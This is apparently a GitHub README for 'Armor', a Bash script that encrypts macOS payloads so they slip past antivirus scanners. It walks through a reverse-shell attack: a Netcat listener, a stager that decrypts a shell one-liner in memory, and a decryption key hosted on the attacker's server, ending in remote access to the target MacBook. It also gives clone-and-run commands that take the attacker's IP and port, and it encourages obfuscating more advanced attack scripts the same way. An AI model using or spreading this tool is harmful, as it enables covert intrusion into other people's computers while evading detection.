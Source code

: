 # Armor

Armor is a simple Bash script designed to create encrypted macOS payloads capable of evading antivirus scanners. Below is an example gif of Armor being used with a simple Netcat payload.

![Armor](https://raw.githubusercontent.com/tokyoneon/Armor/master/Armor.gif)

A Netcat listener is started on port 4444. The "payload.txt" file is read and shown to contain a simple Bash one-liner that, when executed, will create a TCP connection between the target MacBook at the attacker's Netcat listener. Armor is used to encrypt the bash one-liner. Ncat is used to host the decryption key on the attacker's server. When the stager is executed in the target MacBook (not shown in the gif), the bash one-liner is decrypted and executed without writing any data to the harddrive. Ncat immediately terminates the listener after the key has been used. When the Netcat connection is established, the attacker has remote access to the target MacBook.

Admittedly, encrypting most macOS-specific payloads is overkill. This specific bash one-liner is capable of bypassing antivirus without the help of Armor. But this is just an exmaple. The same degree of obfuscation can be applied to sophisticated Python, Ruby, and Shell scripts designed to execute a variety of advanced attacks. 
 
## Installation

Armor relies on LibreSSL to encrypt the input file and create the SSL certificate. If LibreSSL it's found in your system, Armor will attempt to install it. The function for this can be invoked simply by executing `./armor.sh`. Ncat is also a dependency and can be installed in Kali using `$ apt-get update && apt-get install nmap`.

Armor can be cloned and executed using the below commands.

	git clone https://github.com/tokyoneon/Armor
	cd Armor/
	chmod +x armor.sh
	./armor.sh /path/to/payload.txt 1.2.3.4 443

The *1.2.3.4* address is the attacker's IP address where the decryption key will be hosted. This can be a local IP address or VPS. The port number (*443*), is arbitrary and can be changed as needed.

Questions and concerns:
- Twitter: @tokyoneon_
- WonderHowTo: https://creator.wonderhowto.com/tokyoneon/
- Email: dG9reW9uZW9uQHBtLm1lCg==
